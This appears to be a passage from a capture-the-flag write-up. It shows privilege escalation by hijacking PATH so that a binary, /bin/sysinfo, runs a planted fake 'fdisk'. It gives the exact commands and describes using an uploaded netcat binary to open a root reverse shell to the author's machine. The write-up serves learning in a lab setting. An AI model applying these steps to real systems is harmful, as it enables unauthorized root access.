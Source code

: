 In order to know more about the binary *sysinfo*, I used the command *strings*, with the following results:

```shell
theseus@ubuntu:/tmp$ strings /bin/sysinfo                                         
                                
====================Hardware Info====================                                                                                  
lshw -short                                                                                                                            
====================Disk Info====================                                                                                      
fdisk -l                                                                                                                               
====================CPU Info====================                                                                                       
cat /proc/cpuinfo                                                                                                                      
====================MEM Usage=====================                                                                                     
free -h
theseus@ubuntu:/tmp$
```

As it can be observed, the commands used over here are not refered as absolute paths. This means that if, for example, I create a file named "fdisk" in */tmp* and export *tmp* to the path, the binary will execute my file. The correct way to implement this would be specificating the binary route (*/usr/bin/fdisk*)

So, the commands to do this are the following:

```shell
export PATH=/tmp:$PATH 
echo "id" > fdisk
chmod +x fdisk
/bin/sysinfo
```

After running */bin/sysinfo*, the results where *fdisk* is supposed to be executed are:

![Image 2](pictures/magic-19.png)

Obtaining a root shell was a little bit trickier. I tried adding a bash shell, but wasn´t working. I could read the root flag with this, but I wanted the shell. So, as nothing was working, I did the following:
1. Netcat was not installed on the machine, so I uploaded a binary (you can find the binary in kali executing *which nc*).
2. Invoke the *nc* binary with the file *fdisk* I created before, in order to connect to my machine. This is the script that */bin/sysinfo* will call.
3. Establish a listener and enjoy.

